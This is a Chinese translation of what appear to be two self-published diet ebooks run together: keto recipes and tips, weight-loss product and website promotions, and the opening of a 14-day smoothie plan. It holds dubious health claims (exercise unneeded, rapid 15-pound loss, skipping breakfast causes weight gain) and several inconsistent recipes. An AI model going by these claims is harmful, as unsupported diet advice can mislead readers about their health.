将烤箱预热至200华氏度，把培根从中间切开，再将每片切成两半。在烤盘上铺好衬纸，将两片培根并排摆放，然后在上面再放两片，方向相反。如果你想讲究一点，可以考虑把培根编织起来，让它们粘在一起。

将培根烤约20-25分钟，或烤至你满意的程度。烤好后，将培根从烤箱中取出，放在厨房纸巾上，让部分油脂沥出。放凉。

将鸡蛋煎至符合你口味的熟度，然后放在一旁。

取一层培根放在盘子上，然后放上一个煎蛋，再撒上一些奶酪。在上面再盖一层培根，做成三明治。重复这个过程，直到做出3个三明治。即可享用。

## 柠檬蓝莓松饼

份量：8

### 配料：
- 114克蓝莓
- 四分之一茶匙柠檬皮屑
- 四分之一茶匙柠檬香精
- 120克淡奶油
- 1个鸡蛋
- 100克杏仁粉
- 一小撮盐
- 四分之一茶匙小苏打
- 2.5小包甜味剂
- 28克融化黄油

### 做法：
将烤箱预热至350华氏度，并在松饼烤盘中铺好衬纸。将面粉和淡奶油放入碗中搅拌，然后加入鸡蛋再次搅拌，直到所有材料充分混合。

现在加入甜味剂、黄油、柠檬皮屑、柠檬香精和小苏打，搅拌均匀。拌入蓝莓，然后用勺子将混合物舀入松饼烤盘，每个格填至半满。

放入烤箱烤约20分钟，或烤至松饼呈金黄色。放凉后即可享用。

## 菠菜煎蛋卷

份量：1个大煎蛋卷，或2个小煎蛋卷

### 配料：
- 1个蛋黄
- 4个蛋清
- 一把切碎的菠菜
- 半个番茄，切碎
- 2汤匙豆奶或杏仁奶
- 一小撮香菜
- 一汤匙切碎的洋葱
- 喷雾油

### 做法：
用喷雾油喷锅，然后炒蔬菜。将蛋黄、蛋清和奶放入碗中打散。

蔬菜炒好后，从锅中盛出，放在一旁。再次给锅喷油，然后倒入蛋液混合物。

将鸡蛋煎至符合你口味的熟度，然后用勺子把蔬菜放在鸡蛋的一侧。将鸡蛋另一侧翻折盖在蔬菜上，非常轻柔地将煎蛋卷从锅中取出。即可享用。

## 培根、鸡蛋和西兰花

供2人食用

### 配料：
- 4个鸡蛋
- 8片培根
- 一汤匙黄油
- 80克西兰花，切碎
- 1根胡萝卜，切薄片
- 半个洋葱，切碎
- 100克磨碎奶酪
- 50克芹菜

### 做法：
在平底锅或煎锅中融化黄油，然后煎培根和蔬菜约20分钟，或煎至蔬菜开始焦糖化。

将混合物均匀铺在平底锅或煎锅底部，然后切成四份。在每一份中间挖一个洞，打入鸡蛋。将鸡蛋煮至符合你口味的熟度，再撒上奶酪。让奶酪融化后即可享用。

## 火腿、火鸡和奶酪煎饼

份量：4-5

### 配料：
- 4个鸡蛋
- 2茶匙甜菊糖
- 4-6汤匙淡奶油
- 一茶匙肉桂
- 2汤匙椰子粉
- 4片火鸡肉
- 200克瑞士奶酪，磨碎
- 4片火腿
- 一片黄油
- 枫糖浆

### 做法：
将鸡蛋、甜菊糖、淡奶油、肉桂和椰子粉放入碗中，搅拌至混合均匀且顺滑。加热平底锅或煎锅，加入黄油，用中高火融化。将每面煎至金黄色。

将煎饼离火。

取1片火鸡肉放在盘子上，然后在火鸡肉上放一片火腿，再放在一张煎饼上，重复3次。在每个煎饼上放约50克奶酪，然后放在中低火上，盖上盖子，直到奶酪很好地融化。即可享用。

## 第 5 章：午餐食谱

这些午餐食谱可以装盒带到工作地点，也可以在家享用。剩余食物请在接下来几天内吃完，以便享用最新鲜的状态。

## 鸡肉培根沙拉

供4人食用

### 配料：
- 1块生鸡胸肉，切碎
- 4汤匙黄油
- 5片培根
- 1个番茄，切碎
- 半茶匙盐
- 2茶匙牛排调味料
- 2茶匙柠檬汁
- 1个蛋黄
- 56克磨碎奶酪
- 56克蛋黄酱

### 做法：
取牛排调味料撒在鸡肉上，用中高火加黄油炒鸡肉。炒至鸡肉完全熟透。

现在将培根切成条，炒至酥脆，然后沥去油脂。加入剩余配料，炒几分钟后盛出。现在将鸡肉和培根放入盘中，倒入其余配料，即可享用。

## 香肠披萨

份量：1

### 配料：
- 3个鸡蛋
- 200克磨碎奶酪
- 2茶匙意大利调味料
- 1汤匙橄榄油
- 1颗花椰菜，切碎
- 2汤匙黄油
- 42克切碎的洋葱
- 60毫升水
- 200克磨碎马苏里拉奶酪
- 60克磨碎帕玛森奶酪
- 1茶匙茴香籽
- 500克香肠
- 一罐低碳水披萨酱

### 做法：
### 制作饼底：
将烤箱预热至450华氏度，在烤盘上铺纸或抹油。在煎锅或平底锅中融化黄油，然后加入花椰菜和洋葱。用小火炒至花椰菜熟透。

向锅中加水，然后盖上盖子蒸花椰菜，直到变软。现在将花椰菜转入碗中冷却。将香肠放入平底锅或煎锅中煮熟，然后切成小块。现在取出香肠，沥去油脂，放在一旁。

花椰菜冷却后，取约一半放入食品加工机，搅打至顺滑。现在放入碗中，加入马苏里拉奶酪、鸡蛋、帕玛森奶酪和香料，充分搅拌。

现在将混合物铺在烤盘上，均匀铺开。烤约20分钟，或烤至花椰菜边缘变棕。

### 制作浇头：
将香肠切成更小的块。将披萨酱倒入平底锅中，然后加入香肠。盖上盖子，煮至微沸。

将烤箱切换至上火烤模式，将香肠混合物和酱汁倒在饼底上，均匀薄薄地铺开。现在加入奶酪混合物，然后将披萨放回烤箱，直到奶酪开始变棕。切片后即可享用。

## 鸡汤

份量：4-6碗

### 配料：
- 650克鸡肉
- 半个小洋葱，切碎
- 1茶匙盐
- 半根胡萝卜，切碎
- 半根芹菜茎，切碎
- 1瓣去皮大蒜
- 半茶匙欧芹
- 半茶匙百里香
- 3粒胡椒
- 半片香叶

### 做法：
将烤箱预热至400华氏度，将鸡肉放入烤盘或荷兰锅中。加入盐以及洋葱、胡萝卜和芹菜，烤鸡肉约45分钟。鸡肉烤好后，从烤箱中取出，放到炉灶上。现在往鸡肉中加一些水，再加入大蒜、香料和香草。用小火煨煮，然后撇去浮沫。离火，放凉。

冷却后，过滤鸡汤，即可享用。

## 低碳肉饼

份量：1个大肉饼

### 配料：
- 800克牛肉末
- 5瓣蒜末
- 2汤匙黄油
- 半汤匙香菜
- 半汤匙百里香
- 6克欧芹
- 2个鸡蛋
- 400克香肠
- 225克洋葱，切碎
- 120克青椒，切碎
- 100克杏仁粉
- 50克磨碎帕玛森奶酪
- 一茶匙盐
- 半茶匙黑胡椒
- 半茶匙明胶
- 2茶匙烧烤酱
- 2茶匙芥末酱
- 60毫升淡奶油

### 做法：
将烤箱预热至350华氏度，并给烤盘抹油。将帕玛森奶酪和面粉放入碗中，充分搅拌。在平底锅或煎锅中加热黄油，然后加入洋葱、大蒜和青椒翻炒。变软后，放凉，然后放入食品加工机。搅打至细腻。


打散鸡蛋，然后加入烧烤酱、香草、胡椒、盐、芥末和奶油。现在将明胶撒在食材上，静置约5分钟。然后加入洋葱，搅拌均匀。

取牛肉和香肠混合，然后加入大碗中，并将杏仁和鸡蛋混合物放入，混合。如果混合物变得粘稠，加入一些帕尔马干酪。现在将食材放入烤盘中，并确保每侧留出约1英寸的空隙。将肉饼压平，烤约一小时，或直到肉饼达到160华氏度。冷却后上桌。

### 巧克力蛋白奶昔

制作量：1

配料：
- 28克，或1盎司杏仁奶或豆奶
- 114克或4盎司淡奶油
- 一汤匙覆盆子糖浆
- 30克乳清粉

做法：

将食材放入搅拌机或果汁机中，搅拌至顺滑。倒入玻璃杯中，上桌。

## 第 6 章：晚餐食谱

以下晚餐食谱应该能让你在一天结束时感到相当满足。

### 烤三文鱼

份量：2

配料：
- 2块三文鱼菲力
- 6汤匙橄榄油
- 1汤匙柠檬汁
- 1汤匙欧芹
- 2瓣大蒜，切碎
- 1茶匙香菜
- 1茶匙盐
- 1茶匙黑胡椒

做法：

将胡椒、盐、大蒜、香菜、橄榄油、柠檬汁和欧芹加入碗中，搅拌。现在将三文鱼放入烤盘中烹饪，并用大蒜和香菜混合物覆盖。

将三文鱼在冰箱中腌制约一小时，每20分钟翻面一次。将烤箱预热至375华氏度，并用铝箔包裹三文鱼。倒入腌料，然后烤约45分钟，或直到用叉子触碰时三文鱼能轻松分开。上桌。

### 香肠与花椰菜汤

份量：3

配料：
- 半个花椰菜，切块
- 半个洋葱，切块
- 半根中等大小的Chorizo香肠，切块
- 半根青葱，切块
- 半个芜菁，切块
- 少许盐
- 240毫升鸡汤
- 1汤匙黄油

用一汤匙黄油给汤碗抹油，并加入洋葱，用中高火烹饪至变褐。加入花椰菜，边搅拌边再煮5分钟。

将鸡汤加入花椰菜中，并盖上碗盖。现在加入半个芜菁和半份香肠。煮至酥脆（约10分钟）。现在将半份香肠放入搅拌机中，搅拌至顺滑。用盐调味，然后加入剩余的芜菁和香肠。上桌。

### 瑞典肉丸

制作量：30

配料：
- 500克瘦牛肉
- 1汤匙黄油
- 1个熟鸡蛋
- 半茶匙黑胡椒
- 1茶匙半豆蔻粉
- 1茶匙半肉豆蔻
- 1茶匙半盐
- 200克里科塔奶酪
- 114克瑞士奶酪，刨丝

做法：

将黄油加入平底锅加热，然后将洋葱炒至透明。让其烹饪约10分钟。现在取出瑞士奶酪放入搅拌机中，搅拌至类似面包屑。

将鸡蛋和里科塔奶酪加入混合碗中，打匀。现在加入胡椒、盐和香料，再次混合。加入瑞士奶酪和洋葱，再次混合。将牛肉放入碗中混合，直到所有食材粘在一起且粘稠。将混合物分成30个肉丸，滚成球状。

将肉丸放入烤盘中，在350华氏度下烤约20分钟，或至变褐。上桌。

### 瓜达拉哈拉鸡肉

份量：4

配料：
- 4块去骨鸡胸肉，切成2厘米片
- 3瓣蒜末
- 2汤匙黄油
- 6个番茄，切块
- 4个青辣椒
- 114克奶油奶酪
- 60毫升鸡汤
- 60克淡奶油
- 1茶匙孜然
- 半茶匙辣椒粉
- 1茶匙盐
- 半茶匙蒜粉
- 用于装饰的莎莎酱
- 用于装饰的酸奶油
- 一把切达奶酪刨丝，用于装饰

做法：

在平底锅中融化黄油，然后将大蒜和洋葱炒至变软。将鸡肉放入平底锅，用中火烹饪至汁液清澈。将温度调至中低，然后加入辣椒和番茄。加入所有香草和香料，盖上盖子，小火慢煮约10分钟。

现在加入奶油和奶油奶酪，不断搅拌直到奶酪融化。用装饰物点缀，上桌。

### 奶酪洋葱挞

制作量：1个大挞

配料：
- 12个鸡蛋
- 500克切达奶酪，刨丝
- 2汤匙黄油
- 480毫升淡奶油
- 1个洋葱，切块
- 1茶匙盐
- 2茶匙百里香
- 1茶匙胡椒

做法：

将烤箱预热至350华氏度，然后将黄油加入平底锅，用中低火融化。加入洋葱翻炒，直至透明，然后放凉。

准备两个挞盘，加入刨丝奶酪，然后加入洋葱，均匀铺在盘中。

现在将鸡蛋倒入混合碗中，加入香料和奶油。搅拌至混合物起泡。将一半混合物倒在奶酪上，然后均匀铺开。

将盘子放入烤箱，烤约25分钟，或直到挞凝固。放凉后上桌。

## 第 7 章：生酮饮食计划零食

将以下零食作为生酮饮食计划的一部分享用，在吃美味食物的同时减肥。

### 夏威夷果

份量：1

配料：
- 一把夏威夷果
- 一小片黄油

做法：

在平底锅中融化黄油，加入坚果，不断搅拌。坚果变褐后移离热源。放凉后上桌。

### 三文鱼和奶油奶酪

份量：1

配料：
- 150-200克三文鱼
- 100克奶油奶酪

做法：

将三文鱼切成薄条，加入碗中。舀入奶油奶酪并搅拌。上桌。

### 剩肉

份量：1

配料：
- 剩肉
- 少许你喜欢的香草

做法：

将剩肉切成薄条，加入碗或容器中。撒上你喜欢的香草，上桌。

### 奶酪片

份量：1

配料：
- 200克碎奶酪

做法：

将一些未上蜡的烘焙纸剪成与微波炉转盘相同大小。

现在将纸放在转盘上，加入少量奶酪堆。

将微波炉调至全功率运行约一分半钟，或直到奶酪变脆。放凉后上桌。

### 猪皮和青酱

份量：1

配料：
- 10-15块熟猪皮
- 60-80毫升罗勒青酱

做法：

将一半罗勒青酱舀入碗底，均匀铺开。将猪皮放在上面，然后将剩余的青酱舀在猪皮上。搅拌后上桌。

## 第 8 章：提示和技巧

以下是一些提示和技巧，有助于让您参与生酮饮食计划变得更轻松。

### 水

无论您遵循何种饮食计划，保持水分充足都很重要。水对您非常有益，不仅有助于排毒，还能让您感到饱足。每天饮用8杯水，如果您不喜欢水的味道，不妨添加一些低碳水化合物调味剂。

### 锻炼

许多人在参与饮食计划时会锻炼，但您不必这样做。如果您只吃生酮计划允许的食物，您会减掉很多体重。这意味着您不必锻炼也能减肥，因为体重会迅速下降。

### 您的减重

采用这种饮食时，减掉一些甚至大量体重是不可避免的。这是因为您会摄入更少的糖。虽然起初您可能会减掉相当多的体重，但减重速度最终会放缓。这是因为您的身体会确定其理想体重，并会缓慢而稳定地让您达到目标。


请记住，如果你快速减掉大量体重，你也会同样快速地重新增回来。

## 如果你想再次进行计划

我建议你每次不要进行生酮饮食超过两周。这是因为你需要摄入水果、蔬菜和其他这种饮食可能缺乏的营养素。

如果你真的想再次进行计划，请进行两周的计划，休息两周，然后再进行另外两周的计划。

## 结论

再次感谢你下载这本书！

我希望这本书能帮助你了解生酮饮食有多美味，同时也能帮助你减肥。

下一步是准备好你所需的所有食材，这样你就可以享用一些美味的家常餐了。

最后，如果你喜欢这本书，我想请你帮个忙，能否在亚马逊上为这本书留下评论？将不胜感激！

点击此处在亚马逊上为本书留下评论！

感谢你，祝好运！

## 奖励：免费获取我提供的更多视频和书籍！

感谢阅读我的书！我希望你从中获得了极大的价值。我想通过赠送更多免费的健康相关视频、书籍和信息来感谢你！

只需点击下面的链接，并在我的网站上输入你的电子邮件地址！

如果你认真想要改变饮食和健康，你所获得的一切都将对你有用。我将提供：

- 我写的更多书籍
- 制作特色菜肴的视频
- 与健康相关的我最喜欢的产品信息
- 以及更多！

[**点击这里获取所有这些信息！**](link)

嘿，我希望你喜欢我的书。为了给你更多价值，我想提供一些免费内容，以及我最近尝试的一种饮食的信息，这种饮食帮助我减掉了顽固不想要的脂肪。

这个项目给了我减掉顽固不想要的脂肪并感觉年轻十岁的策略！

这个项目叫做 The Fat Diminisher。这种饮食在帮助人们实现减重目标方面取得了巨大成功。这个项目不仅帮助你减掉不想要的脂肪，还教你如何永久保持不反弹！

在短时间内减重一直被认为几乎是不可能完成的任务。多年来，医生和营养师一直告诉公众，要看到减重的进展或塑造完美身材需要数月甚至数年的努力。但这完全不真实。

人体具有高度适应性，能够在极短的时间内发生变化。想想看。如果人们可以通过几周的不健康饮食快速增加大量脂肪，那么他们是否也能通过几周的健康饮食快速减掉很多体重呢？当然可以。

但要快速减重你需要吃什么呢？从低碳水化合物、低脂肪、无糖、高蛋白，甚至‘ caveman ’饮食——选择如此之多，普通人很难搞清楚应该使用哪种饮食来快速减重。有些饮食甚至对你应该吃什么、不应该吃什么提供了相互矛盾的信息。好吧，这一切即将改变。

*现在就观看视频！*

如果你还没有，请务必查看我的新网站，[***KindleBookSpot.com***](https://KindleBookSpot.com)。这是我一直在努力的一个新项目，我真的希望它对我的读者有价值。我创建这个网站是因为我想让大家更轻松地在一个地方找到最热门的、打折的 Kindle 书籍。

以下是我的网站提供的一些详细信息：

- 最畅销免费 Kindle 书籍的列表
- 打折的小说和非小说书籍
- 每周一书
- 精选书籍
- 在我的网站上推广你自己的书

这个网站不仅面向读者，也是新兴作者在新书成为畅销书之前推广作品的地方。所以如果你想推广自己的书，请查看我的网站，[***KindleBookSpot.com***](https://KindleBookSpot.com)。

我希望这个网站对你有用，也希望在那里见到你！

[***订阅 KindleBookSpot 的不断壮大的社区，在最好的书籍打折和免费时收到通知。***](https://KindleBookSpot.com)

# 14 天绿色果昔计划

## 减掉 15 磅并增加能量的初学者指南

## 我最喜欢的饮食的额外信息

## 在 KindleBookSpot.com 还有更多免费和特价书籍

## 目录

第一章：果昔的好处
第二章：开始果昔计划
第三章：饮食计划（14 天指南）
第四章：绿色果昔食谱
第五章：柑橘果昔食谱
第六章：甜味果昔食谱
第七章：提示和技巧
结论

## 引言

我想感谢并祝贺你下载了这本书，“ *14 天果昔计划：减掉 15 磅并增加能量的初学者指南* ”。

为什么大多数人想到健康和健身时，第一反应是感到沮丧并好像整个想法不存在一样？当然我们不可能都是健身专家，但如果你真的认真想要恢复身材、感觉更好，就有一些技巧可以帮助你实现一直想要的那种身材。无论是减肥还是更有精力，使用果昔排毒都是一个很好的开始方式。

随着年龄增长，你身体的自然能量水平会下降，但这并不意味着你应该放弃健康目标。无论你处于人生的哪个阶段，你仍然可以做很多事情来改善你的身体和心理健康，而阅读这本书就是实现你一直想要的生活的第一步。

这本书旨在教你如何通过使用果昔开始更健康、更绿色的生活方式。这并不是为了帮助你快速减肥和感觉更健康而流行的噱头，但它应该鼓励你使用果昔做出更健康的生活方式选择，并在过程中重置你的生活方式。

本书包含经过验证的步骤和策略，教你如何享受各种美味的果昔，从而帮助你减肥。本书还将向你展示如何：

- 从零开始制作美味营养的果昔
- 在不感到饥饿的情况下减掉多达 15 磅
- 摄入身体所需的更多营养
- 感谢你将摄入的果昔感觉更有精力
- 以及更多！

再次感谢你下载这本书，我希望你喜欢它！

不要忘记查看我最喜欢的饮食之一，并在底部学习我使用 3 周饮食快速减掉顽固不想要脂肪的策略。

## 开始之前... 奖励：免费获取我提供的更多视频和书籍！

感谢阅读我的书！我希望你从中获得了极大的价值。我想通过赠送更多免费的健康相关视频、书籍和信息来感谢你！

只需点击下面的链接，并在我的网站上输入你的电子邮件地址！

如果你认真想要改变饮食和健康，你所获得的一切都将对你有用。我将提供：

- 我写的更多书籍
- 制作特色菜肴的视频
- 与健康相关的我最喜欢的产品信息
- 以及更多！

点击这里获取所有这些信息！

## 第 1 章：果昔的好处

如果添加‘Right’的食材，果昔可以非常有营养且很好喝。我的意思是，通过在果昔中添加一些健康食材，你会发现减肥比你想象的更容易，而且不会感到饥饿。

事实是，你可以在不节食或服用那些如今似乎很流行的可疑减肥药的情况下减肥。

充满美味水果和蔬菜的果昔，为你的身体提供保持健康的所需营养，同时也能让你饱腹。

许多果昔富含高纤维成分，正是这些成分能抑制食欲。这是因为它们比其他食物更饱腹，你很快就会意识到自己饱了，不想再吃其他东西。如果你喝一杯水果和蔬菜，不仅会感到饱，而且还会减肥，因为它们脂肪含量非常低。

### 它们味道好

果昔通常味道不错，具体取决于你添加的食材，甚至可能味道很好。好消息是，有许多不同的食谱可供选择，可以满足你和家人的口味。你也可以从零开始创建自己的食谱，以便享受非常美味的东西。

你越喜欢果昔，就越有可能喝它。这意味着，如果这种果昔对你有益：高纤维、低脂肪、低盐、低糖，那么你更有可能减肥。


## 果昔计划

果昔计划是一项你一定会喜欢的计划。这里有丰富多样的食谱可供选择，你可以放心地制作并享用果昔，无论是带去上班、在家享用，还是外出时饮用，都不成问题。

看看这份果昔计划，想想如何把它融入你的生活。在开始14天计划之前，我必须强调，如果你对此类计划还不熟悉，应该循序渐进。

请不要犯这样的错误：一开始就全力以赴，每天用果昔代替两餐。你可能会发现这太难坚持了。相反，只需用果昔代替其中一餐，因为你会发现这相对容易做到。

我建议你早餐喝果昔，午餐吃得清淡一些，晚餐吃一顿烹煮好的饭菜。也可能你无法早餐喝果昔，而想改换另一餐。无论你能做到什么程度，出于什么原因，我都希望14天果昔计划对你非常成功，但最重要的是，你享受其中。

## 额外能量！

现在你每天会摄入更多水果和蔬菜，很快就会发现自己的精力充沛了许多。如果你常常不吃饭，或者不吃高营养食物，情况尤其如此。你获得的额外能量将直接来自你吃下（更确切地说是喝下！）的好食物。水果和蔬菜是很好的能量来源，不会像某些含糖食物那样让你能量骤降。

你可能需要一段时间才能适应规律摄入某种食物，但你会开始感觉更好，看起来也更好。

你会看到我在饮食计划中加入了一些膳食建议。如果你更喜欢别的食物，不必坚持吃这些餐食。请确保晚餐只摄入营养丰富的餐食，无论你吃的是我建议的餐食，还是其他食物。

## 找到食材采购来源

在决定全力以赴制作一周的果昔之前，你需要考虑从哪里采购食材。很多人从超市购买水果和蔬菜，但我尽量不这么做。我建议你从当地市场或果蔬店购买食材。这是因为水果和蔬菜不仅更新鲜，而且很可能更便宜。更重要的是，你还能支持本地商家，这从来都不是坏事。

## 避免购买市售果昔

尽管有些市售果昔非常美味，但它们往往含糖量很高。你也许能找到一些含糖量不高的果昔，但它们通常很贵。省钱并减少糖分摄入的办法，就是饮用自己从头制作的果昔。相信我，它们味道会更好。

## 和朋友一起开始计划

享受14天果昔计划的最好方式之一，就是拉上朋友一起参与。你也可以邀请家里的某个人和你一起。我建议你这样做的原因是，当你和别人一起开始一项新计划时，你们可以交流心得、互相推荐，并在困难时期互相激励。

## 奖励自己

每次执行果昔计划时，我都会在达到特定目标后奖励自己。每周一次，我会犒劳自己一顿自选餐，不管它有多不健康；而其他人则会去城里玩一晚。奖励自己是保持动力的好方法，这意味着你的果昔计划更有可能奏效。如果你付出了很多努力，就需要确保有某种奖励，不是吗？

## 关键食物/食材

除了减肥，你可能还想改善健康。你可以通过摄入多种富含各种维生素的水果和蔬菜来实现这一点。

下面列出了一些维生素，以及含有这些维生素的一些水果和蔬菜名称：

### 维生素A：

水果——葡萄柚、芒果、百香果、番茄

蔬菜——西兰花、胡萝卜、韭葱、南瓜、菠菜、红薯

### 维生素B1——硫胺素：

水果——椰枣、葡萄、芒果、橙子、菠萝、石榴

蔬菜——芦笋、秋葵、欧防风、红薯

### 维生素B2——核黄素：

水果——香蕉、葡萄、百香果、石榴

蔬菜——抱子甘蓝、蘑菇、南瓜、瑞士甜菜

### 维生素B3——烟酸：

水果——牛油果、椰枣、芒果、油桃、桃子

蔬菜——冬南瓜、欧防风、南瓜、红薯

### 维生素B5——泛酸：

水果——牛油果、醋栗、葡萄柚、石榴、覆盆子

蔬菜——西兰花、抱子甘蓝、欧防风、土豆、红薯

### 维生素B6——吡哆醇：

水果——香蕉、椰枣、葡萄、芒果、菠萝、西瓜

蔬菜——西兰花、抱子甘蓝、羽衣甘蓝、红薯

### 维生素B9——叶酸：

水果——黑莓、番石榴、芒果、百香果、草莓

蔬菜——西兰花、抱子甘蓝、秋葵、欧防风、红薯

### 维生素C：

水果——黑加仑、猕猴桃、芒果、橙子、菠萝、草莓

蔬菜——西兰花、抱子甘蓝、羽衣甘蓝、瑞士甜菜

### 维生素D：

水果——无

蔬菜——蘑菇

### 维生素E：

水果——牛油果、蓝莓、蔓越莓、猕猴桃、芒果、石榴、覆盆子

蔬菜——冬南瓜、欧防风、南瓜、瑞士甜菜

### 维生素K：

水果——黑莓、蓝莓、蔓越莓、葡萄、芒果、石榴、番茄

蔬菜——芦笋、西兰花、黄瓜、羽衣甘蓝、韭葱、菠菜、瑞士甜菜

## 第 3 章：饮食计划（14 天指南）

下面你将看到我制定的14天果昔计划，旨在帮助你减肥。果昔不仅能帮助你最多减掉15磅，还能为你提供大量能量。

这是因为水果和蔬菜富含糖分，能为你提供所需的能量提升，又不会在糖分作用消退后让你感到疲惫不堪。这是因为水果和蔬菜提供缓慢释放的能量，这意味着你全天都会更有精力，同时还能减肥。

请注意，以下指南仅供参考，你可能会发现需要调整饮食计划以满足自身需求和生活方式。

部分果昔的食谱可在下一章找到。

### 第一天

- 早餐：清爽黄瓜菠萝果昔
- 零食：一份水果或一份酸奶
- 午餐：沙拉、意面菜肴或健康三明治
- 零食：剩余的果昔或低卡零食
- 晚餐：烤土豆配沙拉

### 第二天

- 早餐：蓝莓桃子果昔
- 零食：一份水果或一份酸奶
- 午餐：沙拉、意面菜肴或健康三明治
- 零食：剩余的果昔或低卡零食
- 晚餐：低脂千层面

### 第三天

- 早餐：香蕉、芒果和猕猴桃果昔
- 零食：一份水果或一份酸奶
- 午餐：沙拉、意面菜肴或健康三明治
- 零食：剩余的果昔或低卡零食
- 晚餐：犒劳自己一顿自选餐

### 第四天

- 早餐：绿色薄荷草莓果昔
- 零食：一份水果或一份酸奶
- 午餐：沙拉、意面菜肴或健康三明治
- 零食：剩余的果昔或低卡零食
- 晚餐：鸡肉沙拉或低脂意面

### 第五天

- 早餐：猕猴桃能量果昔
- 零食：一份水果或一份酸奶
- 午餐：沙拉、意面菜肴或健康三明治
- 零食：剩余的果昔或低卡零食
- 晚餐：烤肉配蔬菜

### 第六天

- 早餐：菠萝、梨和西兰花果昔
- 零食：一份水果或一份酸奶
- 午餐：沙拉、意面菜肴或健康三明治
- 零食：剩余的果昔或低卡零食
- 晚餐：烤土豆配沙拉

### 第七天

- 早餐：黄瓜、西瓜和青柠果昔
- 零食：一份水果或一份酸奶
- 午餐：沙拉、意面菜肴或健康三明治
- 零食：剩余的果昔或低卡零食
- 晚餐：低脂千层面

恭喜你完成了果昔计划的前七天！为什么不奖励一下自己呢？奖励不必与食物有关，只要能让你感觉良好就行！


### 第八天

- 早餐：菠菜、香蕉和火麻仁
- 零食：一份水果或一杯酸奶
- 午餐：沙拉、意面或健康三明治
- 零食：剩余的思慕雪或低热量零食
- 晚餐：鸡肉沙拉或低脂意面

### 第九天

- 早餐：姜和橙子
- 零食：一份水果或一杯酸奶
- 午餐：沙拉、意面或健康三明治
- 零食：剩余的思慕雪或低热量零食
- 晚餐：烤肉配蔬菜

### 第十天

- 早餐：水果思慕雪
- 零食：一份水果或一杯酸奶
- 午餐：沙拉、意面或健康三明治
- 零食：剩余的思慕雪或低热量零食
- 晚餐：犒劳自己，吃一顿自选餐

### 第十一天

- 早餐：清爽黄瓜菠萝思慕雪
- 零食：一份水果或一杯酸奶
- 午餐：沙拉、意面或健康三明治
- 零食：剩余的思慕雪或低热量零食
- 晚餐：烤土豆配沙拉

### 第十二天

- 早餐：蓝莓桃子思慕雪
- 零食：一份水果或一杯酸奶
- 午餐：沙拉、意面或健康三明治
- 零食：剩余的思慕雪或低热量零食
- 晚餐：低脂千层面

### 第十三天

- 早餐：香蕉、芒果和猕猴桃思慕雪
- 零食：一份水果或一杯酸奶
- 午餐：沙拉、意面或健康三明治
- 零食：剩余的思慕雪或低热量零食
- 晚餐：鸡肉沙拉或低脂意面

### 第十四天

- 早餐：绿薄荷和草莓思慕雪
- 零食：一份水果或一杯酸奶
- 午餐：沙拉、意面或健康三明治
- 零食：剩余的思慕雪或低热量零食
- 晚餐：烤肉配蔬菜

恭喜你坚持到思慕雪计划的第十四天！你可能精力更充沛了，睡眠也可能更好了。也许排便更顺畅了，而且很可能还减掉了一点体重！

既然你已经坚持到这里，何不犒劳一下自己？不必是与食物有关的奖励，只要能让你感觉良好即可！

如你所见，享用美味思慕雪的空间很大。我的建议是早上制作思慕雪，这样新鲜可口；但如果没有时间，也可以前一晚做好。剩余思慕雪要尽快喝完。我喜欢第二天上班时享用剩余的思慕雪，这样能增加一点变化，也不会浪费。

### 小建议

不是每个人都喜欢早餐，有些人宁愿不吃，因为他们觉得自己没时间。不吃早餐的问题在于，它不像吃早餐那样促进新陈代谢。这意味着如果不吃早餐，你更可能增重。

醒来后尽量吃点东西，哪怕只是一份水果。你的身体会感谢你，你也可能感觉更好、更有精力。

## 第 4 章：绿色思慕雪食谱

绿色思慕雪对尤其有益，因为它们通常含有大量非常健康的食材。我知道很多人尽量避免喝绿色思慕雪，因为它们看起来可能并不总是那么诱人，但味道可以很棒。

如果你不确定是否要喝绿色的东西，何不尝试只在你喜欢的思慕雪中加入1种绿色食材？这能帮助你习惯这种味道，同时确保你受益于它们提供的营养。

### 清爽黄瓜思慕雪

食材：

- 1整根黄瓜
- 1根芹菜
- 半个柠檬（去皮）
- 4根胡萝卜
- 1个苹果

将所有食材放入榨汁机，榨至顺滑。倒入杯中即可饮用。

### 菠菜香菜思慕雪

食材：

- 1个大番茄
- 大半杯菠菜
- 半个甜椒
- 半根芹菜
- 2小枝香菜
- 四分之一个洋葱（最好是小洋葱）
- 半根胡萝卜
- 少许青柠汁

将所有食材放入榨汁机，如果还有空间，加水至满。将食材榨至顺滑。倒入杯中即可饮用。

### 苹果小白菜思慕雪

食材：

- 1个苹果（去核）
- 2棵小白菜
- 半个青柠的汁
- 1杯椰子水

将食材榨至顺滑。倒入杯中即可饮用。

### 羽衣甘蓝、菠菜和椰子思慕雪

- 一把羽衣甘蓝
- 一把菠菜
- 半杯椰子油
- 2汤匙奇亚籽
- 1个橙子
- 1根香蕉
- 4颗草莓

将食材榨至顺滑。倒入杯中即可饮用。

### 胡萝卜黄瓜思慕雪

食材：

- 2根胡萝卜，切碎
- 半根黄瓜，切碎
- 四分之一杯糖
- 1个去皮橙子
- 半杯水
- 1茶匙柠檬汁

将胡萝卜、黄瓜、橙子和水放入榨汁机，榨至顺滑，然后加入糖和柠檬汁。再次搅打，然后倒入杯中即可饮用。

### 菠菜、火麻籽和香蕉思慕雪

食材：

- 半杯菠菜
- 1根香蕉，切碎
- 1茶匙火麻籽
- 1根胡萝卜
- 5茶匙南瓜籽
- 1个橙子

将食材榨至顺滑。倒入杯中即可饮用。

### 黄瓜辣椒思慕雪

- 1根黄瓜
- 1茶匙青柠汁
- 3片薄荷叶
- 半个辣椒

除青柠汁外，将其他食材榨至顺滑。倒入杯中，加入青柠汁，即可饮用。

### 黄瓜菠萝思慕雪

食材：

- 四分之一根黄瓜
- 四分之一个柠檬
- 1大片菠萝
- 半个大个红苹果

将食材榨至顺滑。倒入杯中即可饮用。

### 黄瓜、青柠和西瓜思慕雪

- 2根黄瓜
- 1个青柠的汁
- 四分之一个西瓜

将食材榨至顺滑。倒入杯中即可饮用。

取决于你使用的思慕雪机或榨汁机类型，你可能需要先切碎食材。这是为了确保不损坏刀片，并/或让思慕雪尽可能顺滑。

诚然，有些绿色思慕雪食谱可能需要一点时间才能适应。如果你不喜欢绿色蔬菜，可以慢慢把它们加入日常饮食。并非每个人都喝绿色思慕雪，有些人完全避开它们。

## 第 5 章：柑橘类思慕雪食谱

如果你更喜欢柑橘风味，那么你会喜欢这些柑橘类思慕雪食谱。如果你觉得它们有点太酸，一撮糖或低热量甜味剂或许能帮你中和酸味。

### 橙子姜思慕雪

食材：

- 1个橙子
- 半汤匙姜末
- 1汤匙枫糖浆
- 四分之一杯胡萝卜汁
- 半杯牛奶
- 四分之一杯酸奶

